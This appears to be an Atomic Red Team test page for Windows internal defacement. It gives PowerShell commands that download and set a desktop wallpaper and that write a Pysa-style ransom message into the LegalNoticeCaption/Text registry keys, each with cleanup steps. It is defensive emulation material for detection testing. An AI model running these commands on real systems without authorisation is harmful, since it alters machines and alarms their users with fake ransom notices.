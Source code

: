 ```yaml
---
tags: [T1491_001, atomic_test]
filename: "[[T1491.001|T1491.001 - Defacement: Internal Defacement]]"
---
```

# T1491.001 - Defacement: Internal Defacement

## Atomic Test #1 - Replace Desktop Wallpaper
Downloads an image from a URL and sets it as the desktop wallpaper.

**Supported Platforms:** Windows


**auto_generated_guid:** 30558d53-9d76-41c4-9267-a7bd5184bed3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url_of_wallpaper | URL pointing to the image file you wish to set as wallpaper | url | https://redcanary.com/wp-content/uploads/Atomic-Red-Team-Logo.png|
| pointer_to_orginal_wallpaper | Full path to where a file containing the original wallpaper location will be saved | string | $env:TEMP&#92;T1491.001-OrginalWallpaperLocation|
| wallpaper_location | Full path to where the downloaded wallpaper image will be saved | string | $env:TEMP&#92;T1491.001-newWallpaper.png|


#### Attack Commands: Run with `powershell`! 


```powershell
$url = "#{url_of_wallpaper}"
$imgLocation = "#{wallpaper_location}"
$orgWallpaper = (Get-ItemProperty -Path Registry::'HKEY_CURRENT_USER\Control Panel\Desktop\' -Name WallPaper).WallPaper
$orgWallpaper | Out-File -FilePath "#{pointer_to_orginal_wallpaper}"
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
$wc = New-Object System.Net.WebClient  
try{  
    $wc.DownloadFile($url, $imgLocation)
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
catch [System.Net.WebException]{  
    Write-Host("Cannot download $url") 
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
finally{    
    $wc.Dispose()  
}
```

#### Cleanup Commands:
```powershell
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
if (Test-Path -Path #{pointer_to_orginal_wallpaper} -PathType Leaf) {
     $orgImg = Get-Content -Path "#{pointer_to_orginal_wallpaper}"
     add-type $updateWallpapercode 
     [Win32.Wallpaper]::SetWallpaper($orgImg)
}
Remove-Item "#{pointer_to_orginal_wallpaper}" -ErrorAction Ignore
Remove-Item "#{wallpaper_location}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Configure LegalNoticeCaption and LegalNoticeText registry keys to display ransom message
Display ransom message to users at system start-up by configuring registry keys HKLM\SOFTWARE\Micosoft\Windows\CurrentVersion\Policies\System\LegalNoticeCaption and HKLM\SOFTWARE\Micosoft\Windows\CurrentVersion\Policies\System\LegalNoticeText.

[SynAck Ransomware](https://www.trendmicro.com/vinfo/es/security/news/cybercrime-and-digital-threats/synack-ransomware-leverages-process-doppelg-nging-for-evasion-and-infection), 
[Grief Ransomware](https://redcanary.com/blog/grief-ransomware/), 
[Maze Ransomware](https://cyware.com/research-and-analysis/maze-ransomware-a-deadly-combination-of-data-theft-and-encryption-to-target-us-organizations-8f27),
[Pysa Ransomware](https://www.cybereason.com/blog/research/threat-analysis-report-inside-the-destructive-pysa-ransomware),
[Spook Ransomware](https://community.fortinet.com/t5/FortiEDR/Threat-Coverage-How-FortiEDR-protects-against-Spook-Ransomware/ta-p/204226),
[DopplePaymer Ransomware](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/Dopplepaymer&threatId=-2147221958),
[Reedemer Ransomware](https://blog.cyble.com/2022/07/20/redeemer-ransomware-back-action/),
[Kangaroo Ransomware](https://www.bleepingcomputer.com/news/security/the-kangaroo-ransomware-not-only-encrypts-your-data-but-tries-to-lock-you-out-of-windows/)

**Supported Platforms:** Windows


**auto_generated_guid:** ffcbfaab-c9ff-470b-928c-f086b326089b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| legal_notice_caption | Title of ransom message | string | PYSA|
| legal_notice_text | Body of ransom message | string | Hi Company, every byte on any types of your devices was encrypted. Don't try to use backups because it were encrypted too. To get all your data contact us:xxxx@onionmail.org|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$orgLegalNoticeCaption = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption).LegalNoticeCaption
$orgLegalNoticeText = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText).LegalNoticeText
$newLegalNoticeCaption = "#{legal_notice_caption}"
$newLegalNoticeText = "#{legal_notice_text}"
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $newLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $newLegalNoticeText -Type String -Force
```

#### Cleanup Commands:
```powershell
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $orgLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $orgLegalNoticeText -Type String -Force
```





<br/>

